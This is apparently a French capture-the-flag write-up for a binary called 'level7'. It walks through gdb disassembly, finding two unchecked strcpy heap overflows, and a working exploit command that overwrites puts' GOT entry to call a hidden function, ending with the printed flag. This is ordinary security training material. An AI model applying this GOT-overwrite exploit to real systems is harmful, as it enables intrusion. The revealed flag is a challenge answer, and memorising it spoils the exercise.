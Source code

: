 #level7

$ ./level7
Segmentation fault (core dumped)
$ ./level7 test
Segmentation fault (core dumped)
$ ./level7 test test
~~

On remarque level7 segfault avec 1 ou sans paramètres, ,mais affiche avec ~~ avec deux paramètres.

On observe juste un main et une fonction m qui n'est pas appeler.

$ gdb level7

> disas main
> Dump of assembler code for function main:
> 0x08048521 <+0>: push %ebp
> 0x08048522 <+1>: mov %esp,%ebp
> 0x08048524 <+3>: and $0xfffffff0,%esp
> 0x08048527 <+6>: sub $0x20,%esp
> 0x0804852a <+9>: movl $0x8,(%esp)
> 0x08048531 <+16>: call 0x80483f0 <malloc@plt>
> 0x08048536 <+21>: mov %eax,0x1c(%esp)
> 0x0804853a <+25>: mov 0x1c(%esp),%eax
> 0x0804853e <+29>: movl $0x1,(%eax)
> 0x08048544 <+35>: movl $0x8,(%esp)
> 0x0804854b <+42>: call 0x80483f0 <malloc@plt>
> 0x08048550 <+47>: mov %eax,%edx
> 0x08048552 <+49>: mov 0x1c(%esp),%eax
> 0x08048556 <+53>: mov %edx,0x4(%eax)
> 0x08048559 <+56>: movl $0x8,(%esp)
> 0x08048560 <+63>: call 0x80483f0 <malloc@plt>
> 0x08048565 <+68>: mov %eax,0x18(%esp)
> 0x08048569 <+72>: mov 0x18(%esp),%eax
> 0x0804856d <+76>: movl $0x2,(%eax)
> 0x08048573 <+82>: movl $0x8,(%esp)
> 0x0804857a <+89>: call 0x80483f0 <malloc@plt>
> 0x0804857f <+94>: mov %eax,%edx
> 0x08048581 <+96>: mov 0x18(%esp),%eax
> 0x08048585 <+100>: mov %edx,0x4(%eax)
> 0x08048588 <+103>: mov 0xc(%ebp),%eax
> 0x0804858b <+106>: add $0x4,%eax
> 0x0804858e <+109>: mov (%eax),%eax
> 0x08048590 <+111>: mov %eax,%edx
> 0x08048592 <+113>: mov 0x1c(%esp),%eax
> 0x08048596 <+117>: mov 0x4(%eax),%eax
> 0x08048599 <+120>: mov %edx,0x4(%esp)
> 0x0804859d <+124>: mov %eax,(%esp)
> 0x080485a0 <+127>: call 0x80483e0 <strcpy@plt>
> 0x080485a5 <+132>: mov 0xc(%ebp),%eax
> 0x080485a8 <+135>: add $0x8,%eax
> 0x080485ab <+138>: mov (%eax),%eax
> 0x080485ad <+140>: mov %eax,%edx
> 0x080485af <+142>: mov 0x18(%esp),%eax
> 0x080485b3 <+146>: mov 0x4(%eax),%eax
> 0x080485b6 <+149>: mov %edx,0x4(%esp)
> 0x080485ba <+153>: mov %eax,(%esp)
> 0x080485bd <+156>: call 0x80483e0 <strcpy@plt>
> 0x080485c2 <+161>: mov $0x80486e9,%edx
> 0x080485c7 <+166>: mov $0x80486eb,%eax
> 0x080485cc <+171>: mov %edx,0x4(%esp)
> 0x080485d0 <+175>: mov %eax,(%esp)
> 0x080485d3 <+178>: call 0x8048430 <fopen@plt>
> 0x080485d8 <+183>: mov %eax,0x8(%esp)
> 0x080485dc <+187>: movl $0x44,0x4(%esp)
> 0x080485e4 <+195>: movl $0x8049960,(%esp)
> 0x080485eb <+202>: call 0x80483c0 <fgets@plt>
> 0x080485f0 <+207>: movl $0x8048703,(%esp)
> 0x080485f7 <+214>: call 0x8048400 <puts@plt>
> 0x080485fc <+219>: mov $0x0,%eax
> 0x08048601 <+224>: leave
> 0x08048602 <+225>: ret
> End of assembler dump.

On a deux malloc de taille 8, qui sont utiliser pour copier argv[1] et argv[2] chacun dans une variable grace a strcpy.

On voit deux strcpy qui ne sont pas protégées, on peut les exploiter.

On voit aussi fgets qui recupère le flag pour le stocker dans une variable globale c.

Observons m ensuite:

> disas m
> Dump of assembler code for function m:
> 0x080484f4 <+0>: push %ebp
> 0x080484f5 <+1>: mov %esp,%ebp
> 0x080484f7 <+3>: sub $0x18,%esp
> 0x080484fa <+6>: movl $0x0,(%esp)
> 0x08048501 <+13>: call 0x80483d0 <time@plt>
> 0x08048506 <+18>: mov $0x80486e0,%edx
> 0x0804850b <+23>: mov %eax,0x8(%esp)
> 0x0804850f <+27>: movl $0x8049960,0x4(%esp)
> 0x08048517 <+35>: mov %edx,(%esp)
> 0x0804851a <+38>: call 0x80483b0 <printf@plt>
> 0x0804851f <+43>: leave
> 0x08048520 <+44>: ret
> End of assembler dump.

m recupère le temps et le flag dans c pour ensuite afficher le flag et le temps.

On va donc essayer d'appeler m en changeant l'adresse GOT de puts par un overwrite grâce aux strcpy.

Dans le main appelons les deux variables où sont stocker les deux mallocs a et b.

On va donc overwrite sur a pour pouvoir changer l'adresse de b par l'adresse GOT de puts.

Et ensuite overwrite puts pour qu'elle appelle m.

D'abord nous devons trouver l'adresse de puts.

> info functions puts
> All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400 puts
0x08048400 puts@plt

> disas 0x08048400
> Dump of assembler code for function puts@plt:
> 0x08048400 <+0>: jmp \*0x8049928
> 0x08048406 <+6>: push $0x28
> 0x0804840b <+11>: jmp 0x80483a0
> End of assembler dump.

0x8049928 est le pointeur que l'on va overwrite.

Il nous faut aussi le offset pour overwrite b[1].

On utilise une chaine de charactère pour trouver le offset.

> r 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'
> Starting program: /home/user/level7/level7 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8aa8 in ?? () from /lib/i386-linux-gnu/libc.so.6

> i r
> eax 0x46464646 1179010630
> ecx 0x0 0
> edx 0x46464646 1179010630
> ebx 0xb7fd0ff4 -1208152076
> esp 0xbffff60c 0xbffff60c
> ebp 0xbffff638 0xbffff638
> esi 0x0 0
> edi 0x0 0
> eip 0xb7eb8aa8 0xb7eb8aa8
> eflags 0x210282 [ SF IF RF ID ]
> cs 0x73 115
> ss 0x7b 123
> ds 0x7b 123
> es 0x7b 123
> fs 0x0 0
> gs 0x33 51

On voit que eax et edx sont overwrite avec 46464646 -> FFFF donc l'offset commence à 20.

Il nous manque juste l'adresse de m qu'on trouve facilement grâce à :

> info functions m
> All functions matching regular expression "m":

Non-debugging symbols:
0x080483d0 time
0x080483d0 time@plt
0x080483f0 malloc
0x080483f0 malloc@plt
0x08048410 **gmon_start**
0x08048410 **gmon_start**@plt
0x08048420 **libc_start_main
0x08048420 **libc_start_main@plt
0x080484d0 frame_dummy
0x080484f4 m

Donc notre commande va ressembler a :

$ ./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
- 1649239638
